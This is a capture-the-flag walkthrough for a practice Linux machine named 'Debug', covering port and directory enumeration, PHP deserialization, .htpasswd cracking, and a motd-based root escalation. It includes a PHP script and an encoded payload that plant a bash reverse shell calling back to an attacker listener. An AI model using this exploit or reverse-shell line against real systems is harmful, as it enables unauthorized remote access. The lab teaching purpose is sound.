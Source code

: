 # Debug : 
## Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!

```
Hey everybody!

Welcome to this Linux CTF Machine!

The main idea of this room is to make you learn more about php deserialization!

I hope you enjoy your journey :)
```


![04878cdb1624bcc08af74122f6b68a88](https://user-images.githubusercontent.com/58278761/113150929-439daf80-923d-11eb-8d82-ac5ae0fd1b35.jpeg)



As a hint from the Creator, we will be facing a PHP Deserialization.

## Enumeration
                              So Lets start with nmap
							
```bash
# Nmap 7.91 scan initiated Tue Mar 30 23:07:31 2021 as: nmap -sC -sV -vv -o Inital_nmap 10.10.234.104
Nmap scan report for 10.10.234.104
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-03-30 23:07:32 EEST for 13s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 23:07:45 2021 -- 1 IP address (1 host up) scanned in 14.22 seconds
```
 
 **We Have 2 Open ports:** 
 * 80 : http
 * 22 : ssh 
 
checking the http we get The Default Apache Page , and there is nothing usefull here; 
lets try to see if there any directories in the site ,



```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.104/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/03/30 23:11:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/backup (Status: 301)
/grid (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/javascripts (Status: 301)
/message.txt (Status: 200)
/server-status (Status: 403)
```
 
 
 As we can see there is some intresting files here :
 **index.php - backup - message.txt** 
 
 first lets see what inside the backup ...
 
 
![Screenshot from 2021-03-31 03-13-38](https://user-images.githubusercontent.com/58278761/113151090-6c25a980-923d-11eb-8978-73f04f44db59.png)


 
 it seems that we have a source code for the index.php website,
 by checking the source code we can identify where is the vulnerable code ...
 
 
 
![Pasted image 20210331033918](https://user-images.githubusercontent.com/58278761/113151201-83fd2d80-923d-11eb-836d-e0199f1644d2.png)

 
 
 As we Can see here we have debug parameter that being unserialized ,
 and we have one of the magic method  is the "__destruct()"
 
A very good Resource for PHP Serialization [Here](https://notsosecure.com/remote-code-execution-via-php-unserialize/)
 
the destruct method is Taking $form_file as file name , and $message variable as its value 
and creating a file in the same directory
 
 so we can write a php code to generate a serialized object that will create a php reverse shell file as bellow :
 
 
 ```php
 <?php
class FormSubmit
{
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/ATTACKER-IP/1337 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```

**payload:**
```bash
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell2.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.94.192%2F1337+0%3E%261%27%22%29%3B%22%3B%7D
```

as we seen above the destruct method now will create a shell.php with the message as its contents, 

setup a listener and  pass the payload to "debug" parameter then navigate to /shell.php, you should catch a shell !



# User

Manually Checking the html directory we see that we got .htapasswd as the creator 
mentioned (hidden) passwords


![Pasted image 20210331040049](https://user-images.githubusercontent.com/58278761/113151253-924b4980-923d-11eb-924d-8913704b4ddd.png)



* well the password is hashed, we can crack it with john using rockyou


![Pasted image 20210331040832](https://user-images.githubusercontent.com/58278761/113151284-9aa38480-923d-11eb-942b-0901d443f4f7.png)



# Root 


root left a message to james ,, 


![Pasted image 20210331041225](https://user-images.githubusercontent.com/58278761/113151344-a727dd00-923d-11eb-959c-b9342f64c135.png)



so James can modify the welcome message in ssh that located in ```/etc/update-motd.d/00-header```

Here you can see how you can exploit this by adding a reverseshell or by simply adding SUID to /bin/bash like this 



![Pasted image 20210331042420](https://user-images.githubusercontent.com/58278761/113151382-af801800-923d-11eb-83d1-517c83a8ad0c.png)



# voilà

![Pasted image 20210331042824](https://user-images.githubusercontent.com/58278761/113151405-b60e8f80-923d-11eb-973c-e286b516abf3.png)

